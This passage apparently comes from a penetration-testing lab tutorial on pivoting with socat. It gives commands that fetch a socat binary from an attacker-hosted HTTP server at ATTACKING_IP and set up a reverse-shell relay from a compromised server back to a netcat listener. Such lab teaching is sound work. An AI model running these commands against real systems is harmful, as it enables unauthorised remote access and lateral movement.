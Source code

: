 ```
sudo python3 -m http.server 80
```

Then, on the target:
`curl ATTACKING_IP/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME`

![Demonstration of using cURL with a Python HTTP server to upload files](assets/f976be91162d.png)

With the binary uploaded, let's have a look at each of the above scenarios in turn.

***Note:** This uploads the socat binary with your username in the title; however, the  example commands given in the rest of this task will refer to the binary simply as* `socat`*.*

------

**Reverse Shell Relay**

In this scenario we are using socat to create a relay for us to send a  reverse shell back to our own attacking machine (as in the diagram  above). First let's start a standard netcat listener on our attacking  box (`sudo nc -lvnp 443`). Next, on the compromised server, use the following command to start the relay:
`./socat tcp-l:8000 tcp:ATTACKING_IP:443 &`

***Note:** the order of the two addresses matters here. Make sure to open the listening port first,* then *connect back to the attacking machine.*

From here we can then create a reverse shell to the newly opened port 8000  on the compromised server. This is demonstrated in the following  screenshot, using netcat on the remote server to simulate receiving a  reverse shell from the target server:

![Demonstration of a socat reverse shell relay from the compromised target to the attacking machine using netcat to simulate sending a shell](assets/e8740afb79ab.png)